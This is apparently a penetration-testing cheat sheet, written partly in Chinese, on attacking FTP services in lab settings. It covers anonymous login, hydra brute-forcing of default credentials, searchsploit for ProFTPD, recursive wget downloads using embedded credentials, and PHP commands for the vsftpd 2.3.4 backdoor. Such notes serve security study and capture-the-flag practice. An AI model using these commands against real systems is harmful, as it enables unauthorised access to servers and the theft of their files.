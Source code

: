 FTP 文件传输协议 , 控制连接默认端口


**Anonymoys Login

```bash
ftp 192.168.0.100
> Anonymous
> 
```

**简单凭据爆破**
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.218.46
```

**ProFTPD Version Exploit**
> [0x06 Digitalworld.local (JOY) WP](../../0X0A%20vulhub%20WP/第二组推荐靶机%20Linux/0x06%20Digitalworld.local%20(JOY)%20WP.md)
```bash
searchsploit proftpd [-m]
```

**多文件下载 (下载至本地)**
```
wget -r 'ftp://ftp_user:UTDRSCH53c"$6hys@10.129.1.183's
wget -m ftp://Username:Password@IP
```

**vsftpd2.3.4 exp**
https://github.com/Hellsender01/vsftpd_2.3.4_Exploits
```
get_current_user()
system("whoami");
scandir("/home/")
file_get_contents('/home/')
```